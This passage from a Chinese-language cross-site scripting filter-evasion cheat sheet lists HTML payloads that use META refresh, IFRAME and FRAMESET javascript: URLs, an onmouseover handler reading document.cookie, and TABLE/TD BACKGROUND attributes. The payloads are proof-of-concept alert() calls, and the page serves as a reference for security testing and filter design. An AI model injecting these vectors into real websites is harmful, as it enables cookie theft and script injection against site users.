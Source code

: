### 额外url参数的META

如果当前网页试图去查找URL参数是否以"http://" 开始，你可以用下列技术绕过（被 Moritz Naumann提出）

```
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

* * *

### IFRAME

如果一个iframes被允许，那么同时可能会存在大量其他xss问题

```
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```

* * *

### IFRAME 基于事件

IFrames或其他元素可以使用事件如下（提出被 David Cross）

```
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
```

* * *

### FRAME

Frames有一些列相同的问题像 iframes

```
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

* * *

### TABLE

```
<TABLE BACKGROUND="javascript:alert('XSS')">
```

* * *

### TD

像上面一样，TD也可以通过 BACKGROUND 来包含javascript xss向量

```
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

* * *

### DIV background-image
